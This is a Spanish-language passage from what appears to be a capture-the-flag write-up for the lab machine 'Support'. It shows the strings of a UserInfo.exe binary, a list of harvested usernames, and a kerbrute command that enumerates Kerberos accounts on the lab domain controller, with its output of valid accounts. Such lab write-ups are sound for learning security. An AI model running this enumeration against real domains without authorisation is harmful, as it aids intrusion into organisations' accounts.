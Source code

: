 ```
VS_VERSION_INFO
VarFileInfo
Translation
StringFileInfo
000004b0
Comments
CompanyName
FileDescription
UserInfo
FileVersion
1.0.0.0
InternalName
UserInfo.exe
LegalCopyright
Copyright 
  2022
LegalTrademarks
OriginalFilename
UserInfo.exe
ProductName
UserInfo
ProductVersion
1.0.0.0
Assembly Version
1.0.0.0
```

`Creamos` un `fichero` users con los `usuarios` encontrados

```
armando
ldap
```
### Kerberos Enumeration

`Enumeramos usuarios` mediante `kerberos`

```
# kerbrute userenum --dc 10.129.178.149 -d support.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 50             

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/17/24 - Ronnie Flathers @ropnop

2024/08/17 15:41:57 >  Using KDC(s):
2024/08/17 15:41:57 >  	10.129.178.149:88

2024/08/17 15:41:58 >  [+] VALID USERNAME:	support@support.htb
2024/08/17 15:41:58 >  [+] VALID USERNAME:	guest@support.htb
2024/08/17 15:42:01 >  [+] VALID USERNAME:	administrator@support.htb
```
